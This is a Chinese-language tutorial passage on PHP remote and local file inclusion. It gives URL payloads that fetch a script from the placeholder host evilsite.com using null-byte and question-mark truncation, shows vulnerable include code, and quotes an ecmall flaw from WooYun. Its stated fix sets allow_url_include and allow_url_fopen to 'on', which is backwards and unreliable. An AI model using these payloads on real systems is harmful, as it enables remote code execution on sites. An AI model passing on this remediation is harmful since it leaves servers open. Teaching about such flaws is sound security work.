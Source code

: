 使用空字节的例子

```
http://127.0.0.1/test.php?pagina=http://evilsite.com/evilscript.txt%00 
```

这样可以去掉末尾的.php 后缀

再如以下例子

```
<?php
    $pagina=$_GET['pagina'];
    include $pagina.'logged=1';
?>

```

使用“?”问号的例子

```
http://127.0.0.1/test.php?pagina=http://evilsite.com/evilscript.txt?logged=1 
```

这样可以把后面的一大坨东西弄没

如何修复：

```
allow_url_include = on
allow_url_fopen = on 
```

简单来说：不要允许特殊字符出现，过滤“/”，或者过滤 http，https，ftp 和 SMB

好吧，来举一个乌云上 Frears 的例子

[WooYun: ecmall 本地文件包含](http://www.wooyun.org/bugs/wooyun-2011-02654)

```
//只判断是 app 是否设置，然后去掉了两端空格

$app = isset($_REQUEST['app']) ? trim($_REQUEST['app']) : $default_app;

$act = isset($_REQUEST['act']) ? trim($_REQUEST['act']) : $default_act;

//很明显可以看出$app 是我们可以控制的、由于后面连接了.app.php 所以利用的时候要截断。

$app_file = $config['app_root'] . "/{$app}.app.php";

//应为是本地包函、所以 is_file 是为真的

if (!is_file($app_file))

{

    exit('Missing controller');

}

//这里直接就包函了，这么低级的漏洞、我都不好说什么了.

require($app_file);

```
